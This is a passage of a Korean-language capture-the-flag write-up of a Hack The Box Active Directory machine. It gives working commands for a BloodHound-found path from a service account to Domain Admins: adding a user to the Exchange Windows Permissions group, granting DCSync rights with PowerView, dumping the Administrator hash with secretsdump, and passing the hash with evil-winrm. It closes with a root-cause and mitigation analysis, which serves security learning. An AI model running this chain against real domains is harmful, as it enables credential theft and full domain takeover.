

### 공격 경로 시각화

`svc-alfresco`에서 `Domain Admins`로 향하는 최단 경로를 조회하면 전체 공격 체인이 한눈에 드러난다.



```
SVC-ALFRESCO
  --MemberOf-->  SERVICE ACCOUNTS
  --MemberOf-->  PRIVILEGED IT ACCOUNTS
  --MemberOf-->  ACCOUNT OPERATORS
  --GenericAll-->  EXCHANGE WINDOWS PERMISSIONS
  --WriteDACL-->  HTB.LOCAL (도메인 객체)
  --Contains-->  DOMAIN ADMINS
```

핵심 두 엣지는 다음과 같다.

- **Account Operators → GenericAll → Exchange Windows Permissions**: svc-alfresco는 그룹 멤버십 체인을 통해 Exchange Windows Permissions 그룹에 대한 완전 제어 권한을 가진다. 즉 이 그룹에 임의 계정을 추가할 수 있다.
- **Exchange Windows Permissions → WriteDACL → 도메인 객체**: 이 그룹은 도메인 객체의 ACL을 수정할 수 있다. 이 권한으로 임의 계정에 DCSync 권한을 부여할 수 있다.

### WriteDACL과 DCSync 개념

**WriteDACL**은 객체의 DACL(접근 제어 목록)을 수정할 수 있는 권한이다. 도메인 객체에 대한 WriteDACL이 있으면, 도메인에 적용되는 권한 자체를 새로 추가할 수 있다.

**DCSync**는 도메인 컨트롤러 간 복제 프로토콜(MS-DRSR)을 악용하는 기법이다. `DS-Replication-Get-Changes` / `DS-Replication-Get-Changes-All` 권한을 가진 주체는 DC에게 "복제 데이터를 달라"고 요청할 수 있고, DC는 이를 정상 복제로 간주해 Administrator를 포함한 모든 계정의 NTLM 해시를 넘겨준다.

연결하면, WriteDACL로 우리가 만든 계정에 DCSync 권한을 부여하고 → 그 계정으로 Administrator 해시를 덤프하는 흐름이다.

### Step 1 — 계정 생성 및 Exchange 그룹 추가

Account Operators 권한으로 새 계정을 만들고 Exchange Windows Permissions 그룹에 추가한다.

```powershell
net user hacker Password123! /add /domain
net group "Exchange Windows Permissions" hacker /add /domain
```



두 명령 모두 성공한다. 이로써 `hacker` 계정은 도메인 객체에 대한 WriteDACL 권한을 상속받게 된다.

### Step 2 — PowerView 업로드

DCSync 권한 부여에 사용할 PowerView를 업로드한다.

```powershell
upload /usr/share/windows-resources/powersploit/Recon/PowerView.ps1
```



### Step 3 — DCSync 권한 부여

`hacker` 계정의 자격증명으로, 도메인 객체에 DCSync 권한을 추가한다. WriteDACL 권한을 실제로 가진 주체가 `hacker`이므로 그 자격증명으로 ACL을 수정해야 한다.

```powershell
. .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB\hacker', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity hacker -Rights DCSync
```



- `ConvertTo-SecureString` + `PSCredential`: PowerShell에서 다른 계정으로 작업하려면 패스워드를 SecureString으로 변환해 자격증명 객체를 만들어야 한다.
- `Add-DomainObjectAcl ... -Rights DCSync`: 도메인 루트 객체에 `hacker`의 DCSync 권한(복제 권한)을 추가한다.

에러 없이 완료되면 `hacker`는 DCSync가 가능한 상태가 된다.

### Step 4 — DCSync로 Administrator 해시 덤프

impacket-secretsdump로 도메인 계정 해시를 덤프한다. (zsh에서는 `!`가 히스토리 확장으로 해석되므로 전체를 작은따옴표로 감싼다.)

```bash
impacket-secretsdump 'htb.local/hacker:Password123!@10.129.15.25'
```



상단의 `RemoteOperations failed: ... access_denied`는 무시해도 된다. DCSync(DRSUAPI) 방식은 정상 동작하며 모든 계정 해시가 덤프된다.

```
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```

해시 형식은 `계정명:RID:LM해시:NT해시:::`이다. 앞쪽 `aad3b435...`는 빈 LM 해시(미사용)를 나타내는 더미값이고, 인증에 사용하는 것은 뒤쪽 NT 해시 `32693b11e6aa90eb43d32c72a07ceea6`다.

### Step 5 — Pass-the-Hash

NTLM 인증은 challenge를 **NT 해시로 암호화**한 응답을 검증한다. 즉 평문 패스워드 없이 NT 해시만으로 동일한 응답을 만들 수 있다. Evil-WinRM의 `-H` 옵션으로 해시를 그대로 넣어 Administrator로 접속한다.

```bash
evil-winrm -i 10.129.15.25 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```



`C:\Users\Administrator\Documents`에서 셸이 열리면 도메인 관리자 권한 획득이 완료된 것이다.

### Root Flag

```powershell
type C:\Users\Administrator\Desktop\root.txt
```



---

## Vulnerability Root Cause Analysis

| 취약점 | 위치 | 근본 원인 | OWASP / 분류 |
|--------|------|-----------|--------------|
| 익명 정보 노출 | SMB/RPC null session | 인증 없는 세션으로 사용자·정책 열거 허용 | A01 Broken Access Control |
| AS-REP Roasting | `svc-alfresco` 계정 | Kerberos Pre-Authentication 비활성화(`DONT_REQUIRE_PREAUTH`) | A07 Identification & Authentication Failures |
| 약한 패스워드 | `svc-alfresco` | 사전 단어(`s3rvice`) 사용, 복잡도 정책 미적용 | A07 Identification & Authentication Failures |
| 과도한 권한 위임 | Account Operators 멤버십 | 서비스 계정에 고권한 그룹 관리 권한 부여 | A01 Broken Access Control |
| ACL 남용 (DCSync) | 도메인 객체 WriteDACL | Exchange Windows Permissions의 도메인 WriteDACL 방치 | A01 Broken Access Control |

### 실제 환경에서의 위험성

AS-REP Roasting은 공격자가 도메인 내 어떤 계정의 자격증명도 없이, 단지 Pre-Auth가 꺼진 계정 이름만으로 오프라인 크래킹 대상 해시를 얻을 수 있다는 점에서 위험하다. 서비스 계정은 호환성 이유로 Pre-Auth를 끄는 경우가 있는데, 이 경우 반드시 길고 복잡한 패스워드(또는 gMSA)를 사용해 오프라인 크래킹을 무력화해야 한다.

DCSync로 이어지는 경로의 본질은 **권한 위임의 누적**이다. 개별 그룹 멤버십은 정상 운영 목적일 수 있으나, Account Operators → Exchange Windows Permissions → 도메인 WriteDACL로 이어지는 체인이 방치되면 일반 서비스 계정에서 도메인 관리자까지 직선 경로가 만들어진다. Exchange 설치 시 자동 생성되는 과도한 ACL은 주기적으로 BloodHound 등으로 점검하고, Tier 0 자산에 대한 WriteDACL/GenericAll 같은 위험 엣지는 제거해야 한다.

---

## Attack Chain Summary

| 단계 | 기술 | 도구 |
|------|------|------|
| 포트 스캔 | DC 식별(Kerberos/LDAP/SMB) | nmap |
| 패스워드 정책 | Account Lockout None 확인 | enum4linux |
| Null Session | 익명 세션 허용 확인 | enum4linux |
| 사용자 열거 | acb 플래그 + 사용자 RID 확인 | rpcclient |
| 사용자 교차검증 | 사람 계정 + OU 구조 | ldapsearch |
| AS-REP Roasting | Pre-Auth 미설정 계정 해시 획득 | impacket-GetNPUsers |
| 해시 크래킹 | krb5asrep 오프라인 크래킹 → s3rvice | john |
| 초기 접속 | svc-alfresco 셸 + user flag | evil-winrm |
| 권한 정찰 | Account Operators 멤버십 확인 | whoami /all |
| 권한 경로 분석 | Domain Admins 경로 시각화 | bloodhound-python + BloodHound CE |
| 계정 생성 | hacker 생성 + Exchange 그룹 추가 | net user / net group |
| DCSync 권한 부여 | 도메인 객체에 복제 권한 추가 | PowerView |
| 해시 덤프 | Administrator NT 해시 획득 | impacket-secretsdump |
| Pass-the-Hash | NT 해시로 Administrator 접속 + root flag | evil-winrm |

